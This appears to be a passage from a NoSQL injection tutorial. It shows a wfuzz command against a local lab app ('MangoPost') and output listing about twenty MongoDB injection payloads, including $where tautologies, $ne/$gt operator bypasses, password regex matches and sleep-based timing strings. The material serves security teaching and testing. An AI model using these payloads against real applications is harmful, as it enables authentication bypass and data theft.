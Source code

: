 [Fuzzing](https://owasp.org/www-community/Fuzzing) is a type of black-box testing technique where the tester injects large amounts of data into a program to see what causes software malfunctions. In this context of NoSQLi testing, we would be using wordlists of possible NoSQLi payloads to see what causes the server to respond differently, indicating a successful injection.

The effectiveness of fuzzing relies heavily on the choice of wordlist. Unfortunately for NoSQL, there are not many public wordlists, but here is a couple:

- [seclists/Fuzzing/Databases/NoSQL.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/NoSQL.txt)
- [nosqlinjection\_wordlists/mongodb\_nosqli.txt](https://github.com/cr0hn/nosqlinjection_wordlists/blob/master/mongodb_nosqli.txt)

We can use [wfuzz](https://github.com/xmendez/wfuzz) on the `MangoPost` application to demonstrate fuzzing.

```shell
wfuzz -z file,/usr/share/seclists/Fuzzing/Databases/NoSQL.txt -u http://127.0.0.1/index.php -d '{"trackingNum": FUZZ}'

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://127.0.0.1/index.php
Total requests: 22

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000001:   200        0 L      6 W        35 Ch       "true, $where: '1 == 1'"
000000008:   200        0 L      6 W        35 Ch       "' } ], $comment:'successful MongoDB injection'"
000000009:   200        0 L      6 W        35 Ch       "db.injection.insert({success:1});"
000000010:   200        0 L      6 W        35 Ch       "db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1"
000000003:   200        0 L      6 W        35 Ch       "$where: '1 == 1'"
000000005:   200        0 L      6 W        35 Ch       "1, $where: '1 == 1'"
000000004:   200        0 L      6 W        35 Ch       "', $where: '1 == 1'"
000000006:   200        0 L      6 W        35 Ch       "{ $ne: 1 }"
000000007:   200        0 L      6 W        35 Ch       "', $or: [ {}, { 'a':'a"
000000002:   200        0 L      6 W        35 Ch       ", $where: '1 == 1'"
000000011:   200        0 L      6 W        35 Ch       "|| 1==1"
000000013:   200        0 L      6 W        35 Ch       "' && this.password.match(/.*/)//+%00"
000000016:   200        0 L      6 W        35 Ch       "'%20%26%26%20this.passwordzz.match(/.*/)//+%00"
000000019:   200        0 L      6 W        35 Ch       "[$ne]=1"
000000020:   200        0 L      6 W        35 Ch       "';sleep(5000);"
000000017:   200        0 L      6 W        35 Ch       "{$gt: ''}"
000000018:   200        3 L      13 W       136 Ch      "{"$gt": ""}"
000000015:   200        0 L      6 W        35 Ch       "'%20%26%26%20this.password.match(/.*/)//+%00"
000000014:   200        0 L      6 W        35 Ch       "' && this.passwordzz.match(/.*/)//+%00"
000000022:   200        0 L      6 W        35 Ch       "{$nin: [""]}}"
000000012:   200        0 L      6 W        35 Ch       "' || 'a'=='a"
000000021:   200        0 L      6 W        35 Ch       "';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);"

Total time: 0.036365
Processed Requests: 22
Filtered Requests: 0
Requests/sec.: 604.9728

```
